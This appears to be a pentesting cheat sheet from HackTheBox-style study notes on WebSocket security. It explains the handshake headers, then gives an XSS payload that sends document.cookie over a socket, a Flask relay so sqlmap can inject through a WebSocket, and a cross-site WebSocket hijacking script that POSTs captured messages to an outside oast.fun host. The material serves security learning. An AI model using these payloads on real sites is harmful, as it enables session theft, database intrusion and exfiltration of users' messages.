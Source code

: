 
#### The WebSocket handshake is initiated with an HTTP request similar to this:
```http
GET /echo HTTP/1.1
Host: websockets.htb
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: 7QpTshdCiQfiv3tH7myJ1g==
Origin: http://websockets.htb
```
- The Connection header with the value Upgrade and the Upgrade header with the value websocket indicate the client's intent to establish a WebSocket connection
- The Sec-WebSocket-Version header contains the WebSocket protocol version chosen by the client, with the latest version being 13
- The Sec-WebSocket-Key header contains a unique value confirming that the client wants to establish a WebSocket connection; this header does not provide any security protections
- The Origin header contains the origin just like in regular HTTP requests and is used for security purposes.

#### The server responds with a response similar to the following:
```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: QU/gD/2y41z9ygrOaGWgaC+Pm2M=
```
- The HTTP status code of 101 indicates that the WebSocket connection establishment has been completed
- The Connection and Upgrade headers contain the same values as in the client's request, which is Upgrade and websocket, respectively
- The Sec-WebSocket-Accept header contains a value derived from the value sent by the client in the Sec-WebSocket-Key header and confirms that the server is willing to establish a WebSocket connection


## Xss through web sockets
for example send admin's cookies through socket chat
```html
<img src=x onerror="socket.send(document.cookie);"> 
```

## SQL through web sockets
- we need to create a flask middleware to use sqlmap
```bash
pip3 install Flask ,  websocket-client , json
```
- for example if we have a websocket that accept `username` paramter we can create this flask app to convert the get paramter from sqlmap to websocket scheme
```python3
from flask import Flask, request
from websocket import create_connection
import json

app = Flask(__name__)

WS_URL = 'ws://target.com/dbconnector'

@app.route('/')
def index():
    req = {}
    req['username'] = request.args.get('username', '')

    ws = create_connection(WS_URL)
    ws.send(json.dumps(req))
    r = json.loads(ws.recv())
    ws.close()

    if r.get('error'):
        return r['error']

    return r['messages']

app.run(host='127.0.0.1', port=8000)

```
- then use sqlmap against it 
```shell
sqlmap -u "http://127.0.0.1:8000/?username=htb-stdnt" --level 5 --risk 2        
```


## Cross-Site WebSocket Hijacking
```html
<script>
  function send_message(event){
    socket.send('!get_messages');
  };

  const socket = new WebSocket('ws://VulnHost:80/messages');
  socket.onopen = send_message;
  socket.addEventListener('message', ev => {
    fetch('http://ch23a202vtc0000138p0getbibyyyyyyb.oast.fun/', {method: 'POST', mode: 'no-cors', body: ev.data});
  });
</script>

```

**Note:** 


For this exploit to work, the SameSite cookie flag must be set to `None`. Since most browsers apply a default value of Lax if the SameSite cookie attribute is not set, the attack's success would require a deliberately insecure configuration by the web application administrator.
